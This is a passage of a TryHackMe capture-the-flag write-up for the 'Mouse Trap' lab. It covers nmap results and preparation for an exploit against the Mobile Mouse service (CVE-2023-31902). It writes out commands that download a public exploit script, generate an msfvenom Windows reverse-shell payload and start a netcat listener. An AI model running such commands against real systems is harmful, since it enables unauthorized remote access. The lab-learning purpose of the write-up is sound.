 ```
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-19T23:04:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.35 seconds
```

**Open Ports:**
- **135/tcp**: Microsoft Windows RPC
- **139/tcp**: NetBIOS Session Service
- **445/tcp**: Microsoft-DS (potentially SMB)
- **3389/tcp**: Microsoft Terminal Services (RDP)
- **9099/tcp**: Mobile Mouse Server
- **9999/tcp**: Abyss? (unrecognized service)

Nmap identified that port **9099** is running a service called "Mobile Mouse Server". Visiting [machineIP:9099] returns an html page that displays "MOUSETRAP". Since TryHackMe guides us on using **T1190** (Exploit Public-Facing Application) to gain initial access, the "MOUSETRAP" web page seems like a good direction to investigate further. 

After some Google research, I learned that Mobile Mouse is a service that allows you to use your phone as a remote desktop mouse. 

Searching ExploitDB for "Mobile Mouse" returned a Remote Code Execution exploit for it.
TryHackMe has told us to use the SMB version of the exploit instead of the HTTP version. With further research, I found a GitHub page that explains the usage of both versions of the exploit and lists the SMB exploit as V2. The script found earlier on ExploitDB is the HTTP version, so I downloaded V2 found on GitHub to my local machine.

https://github.com/blue0x1/mobilemouse-exploit

**Command:** `wget https://raw.githubusercontent.com/blue0x1/mobilemouse-exploit/refs/heads/main/CVE-2023-31902-v2.py`

The next step is to use metasploit to generate a Windows stageless reverse TCP (x64) shell, which will be passed as an argument to the exploit script.

**Command:** `msfvenom -p windows/x64/shell_reverse_tcp LHOST=LHOST LPORT=5555 -f exe -o shell.exe`

![](images/mouse-trap-msfvenom-exe.png)

After creating the payload I started a netcat listener on port 5555, which matches the local port specified when generating `shell.exe`.

**Command:** `nc -lvnp 5555`

